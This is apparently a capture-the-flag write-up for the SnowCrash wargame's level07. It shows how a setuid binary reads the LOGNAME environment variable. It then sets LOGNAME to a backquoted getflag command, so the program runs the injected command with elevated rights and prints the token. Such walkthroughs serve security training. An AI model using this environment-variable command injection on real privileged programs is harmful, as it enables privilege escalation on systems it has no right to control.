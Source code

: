 # Level07

## Research
--------------

```bash
level07@SnowCrash:~$ ls -l
-rwsr-sr-x 1 flag07 level07 8805 Mar  5  2016 level07
```

```bash
level07@SnowCrash:~$ strings level07
[...]
LOGNAME
[...]
```
The program level07 seems to get the environment variable LOGNAME. </br>

`In computer software, logname (stands for Login Name) is a program in Unix and Unix-like operating systems that prints the name of the user who is currently logged in on the terminal. It usually corresponds to the LOGNAME variable in the system-state environment (but this variable could have been modified).` </br>
https://en.wikipedia.org/wiki/Logname

## Solution
---------------

We can modify this variable to ```'`getflag`'``` so it will be taken as ````getflag```` in the env variable, and then level07 will execute what is in backquotes.</br>
https://book.hacktricks.xyz/pentesting-web/command-injection

```bash
level07@SnowCrash:~$ export LOGNAME=\`getflag\`
level07@SnowCrash:~$ ./level07
```
Gives the token.
